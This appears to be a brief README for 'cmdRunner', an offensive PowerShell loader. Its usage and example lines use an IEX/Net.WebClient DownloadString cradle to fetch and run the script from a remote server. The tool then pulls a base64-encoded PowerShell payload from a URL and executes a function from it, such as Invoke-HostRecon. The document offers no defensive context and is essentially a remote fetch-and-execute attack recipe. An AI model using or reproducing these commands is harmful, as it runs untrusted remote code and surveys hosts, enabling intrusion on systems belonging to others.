 # cmdRunner

## Usage
IEX ((New-Object Net.WebClient).DownloadString('http://your-server/path/to/cmdRunner.ps1'))
cmdRunner -Uri http://your-server/path/to/b64/encoded/powershell/script.txt -Command <Command found in script.txt>

## Example
IEX ((New-Object Net.WebClient).DownloadString(''))
cmdRunner -Uri <URL> -Command Invoke-HostRecon
